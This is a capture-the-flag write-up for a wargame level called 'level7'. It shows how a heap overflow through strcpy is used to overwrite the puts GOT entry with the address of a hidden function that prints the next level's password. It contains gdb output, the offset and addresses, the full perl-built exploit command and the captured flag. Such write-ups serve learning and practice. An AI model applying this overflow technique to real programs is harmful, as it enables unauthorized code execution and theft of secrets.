 # level7

# Analyse
In this level we have an executable `level7`
```bash
> ./level7
Segmentation fault (core dumped)
> ./level7 arg
Segmentation fault (core dumped)
> ./level7 arg1 arg2
~~
```

Ok so we need 2 arguments to call the executable.

Now let's disassemble the program to understand all (see source).

We see that we have a function `m` that is never called. This function print a global variable & the current time.

In the main function, we do some `malloc` & `strcpy` and then we open `"/home/user/level8/.pass"` and we write his content in the same global variable as `m`.

If we call `m` after `fgets` function, `m` will write the password !

# Exploit
To call `m` we replace the call of `puts` by a call to `m`.

Let's get the `m` and `puts` addresses:
```bash
> gdb level7
(gdb) $ p m
$1 = {<text variable, no debug info>} 0x80484f4 <m>  ; <- addr of m: 0x80484f4
(gdb) $ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    DWORD PTR ds:0x8049928  ; <- addr of puts: 0x8049928
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

Now we can see that if we strcpy a long str, the content of this str will be used in the next strcpy:
```bash
> gdb level7
(gdb) $ run "`perl -e 'print "A"x30'`" "BBBB"
...
[-------------------------------------code-------------------------------------]
   0x80485b3 <main+146>:        mov    eax,DWORD PTR [eax+0x4]
   0x80485b6 <main+149>:        mov    DWORD PTR [esp+0x4],edx
   0x80485ba <main+153>:        mov    DWORD PTR [esp],eax
=> 0x80485bd <main+156>:        call   0x80483e0 <strcpy@plt>
   0x80485c2 <main+161>:        mov    edx,0x80486e9
   0x80485c7 <main+166>:        mov    eax,0x80486eb
   0x80485cc <main+171>:        mov    DWORD PTR [esp+0x4],edx
   0x80485d0 <main+175>:        mov    DWORD PTR [esp],eax
Guessed arguments:
arg[0]: 0x41414141 ('AAAA')
arg[1]: 0xbffff88c ("BBBB")
```

In this example, we see that if we send 30 A in the first argument, the second strcpy will try to write `"BBBB"` in address `0x41414141` -> "AAAA". Now we try to see the right offset.

The offset is 24. So we will write 20 A, then the address we want to change (`puts`) and for the second argument, the `m` address.
```bash
> ./level7 "`perl -e 'print "A"x20 . "\x28\x99\x04\x08"'`" "`perl -e 'print "\xf4\x84\x04\x08"'`"
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1591179845
```

# flag
```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
